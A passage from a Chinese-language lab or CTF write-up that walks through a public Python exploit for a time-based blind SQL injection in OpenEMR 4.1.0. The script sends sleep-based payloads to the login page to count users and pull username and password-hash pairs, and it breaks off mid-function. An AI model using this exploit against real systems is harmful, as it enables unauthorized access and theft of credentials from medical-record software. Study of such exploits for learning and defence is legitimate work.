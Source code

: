 进一步的去查看脚本文件，发现，主要就是利用时间延时注入进行的一个枚举

查看代码，当然，这里其实知道了注入点，就可以自己去`burp`等工具上进行爆破了，这也让我知道会编写脚本的重要性。

```python
# Exploit Title: OpenEMR 4.1.0 - 'u' SQL Injection
# Date: 2021-04-03
# Exploit Author: Michael Ikua
# Vendor Homepage: https://www.open-emr.org/
# Software Link: https://github.com/openemr/openemr/archive/refs/tags/v4_1_0.zip
# Version: 4.1.0
# Original Advisory: https://www.netsparker.com/web-applications-advisories/sql-injection-vulnerability-in-openemr/

#!/usr/bin/env python3

import requests
import string
import sys

print("""
   ____                   ________  _______     __ __   ___ ____
  / __ \____  ___  ____  / ____/  |/  / __ \   / // /  <  // __ \\
 / / / / __ \/ _ \/ __ \/ __/ / /|_/ / /_/ /  / // /_  / // / / /
/ /_/ / /_/ /  __/ / / / /___/ /  / / _, _/  /__  __/ / // /_/ /
\____/ .___/\___/_/ /_/_____/_/  /_/_/ |_|     /_/ (_)_(_)____/
    /_/
    ____  ___           __   _____ ____    __    _
   / __ )/ (_)___  ____/ /  / ___// __ \  / /   (_)
  / /_/ / / / __ \/ __  /   \__ \/ / / / / /   / /
 / /_/ / / / / / / /_/ /   ___/ / /_/ / / /___/ /
/_____/_/_/_/ /_/\__,_/   /____/\___\_\/_____/_/   exploit by @ikuamike
""")

all = string.printable
# 这里编辑url地址，确保是可访问的正确的
url = "http://192.168.10.11/openemr/interface/login/validateUser.php?u="

#确定用户名的个数
def extract_users_num():
    print("[+] Finding number of users...")
    for n in range(1,100):
        payload = '\'%2b(SELECT+if((select count(username) from users)=' + str(n) + ',sleep(3),1))%2b\''
        r = requests.get(url+payload)
        if r.elapsed.total_seconds() > 3:
            user_length = n
            break
    print("[+] Found number of users: " + str(user_length))
    return user_length

def extract_users():
    users = extract_users_num()
    print("[+] Extracting username and password hash...")
    output = []
    #这个for循环是确定user:pass这种形式的具体长度的，也就是length的大小
    for n in range(1,1000):
        payload = '\'%2b(SELECT+if(length((select+group_concat(username,\':\',password)+from+users+limit+0,1))=' + str(n) + ',sleep(3),1))%2b\''
        #print(payload)
        r = requests.get(url+payload)
        #print(r.request.url)
        if r.elapsed.total_seconds() > 3:
            length = n
            break
```